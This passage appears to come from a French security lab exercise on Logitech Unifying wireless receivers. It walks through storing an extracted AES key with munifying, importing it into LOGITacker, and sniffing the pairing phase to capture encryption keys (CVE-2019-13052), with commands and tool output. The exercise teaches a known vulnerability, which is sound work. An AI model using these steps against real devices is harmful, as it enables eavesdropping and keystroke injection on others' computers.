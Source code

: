 La clé est présente ! :) On sauvegarde les informations.

```
$ sudo munyfying store
$ cat dongle_XX_XX_XX_XX.dat
```

Import de la clé dans LOGITacker

```
LOGITacker (discover) $ devices add
syntax to add a device manually:
    devices add <RF-address> [AES key]
example device no encryption   : devices add de:ad:be:ef:01
example device with encryption : devices add de:ad:be:ef:02 023601e63268c8d37988847af1ae40a1

LOGITacker (discover) $ devices add de:ad:be:ef:02 <la cle extraite avec munifying>
```

Extraction de la clé lors de la phase d'appairage CVE-2019-13052 (à réaliser en binôme)
--

Exercice :

> Extraction de la clé lors de la phase d'appairage

* https://www.logitech.com/en-us/software/options.html
* https://github.com/RoganDawes/LOGITacker#34-encrypted-injection
* https://doc.ubuntu-fr.org/solaar

Simuler des phases d'appairage avec **LOGIOptions** / **munifying** / **solaar**, puis extraire la clé de chiffrement avec le module **pair** de LOGITacker

```
$ sudo apt install solaar
$ solaar show
$ solaar &
```

Utiliser la fonctionnalité **pair sniff** de **LOGITacker** pour capturer la clé

```
LOGITacker (discover) $ pair
pair - discover
Options:
  -h, --help  :Show command help.
Subcommands:
  sniff   :Sniff pairing.
  device  :pair or forced pair a device to a dongle
LOGITacker (discover) $ pair sniff
sniff - Sniff pairing.
Options:
  -h, --help  :Show command help.
Subcommands:
  run  :Sniff pairing.
LOGITacker (discover) $ pair sniff run
LOGITacker (sniff pairing) $ 
```
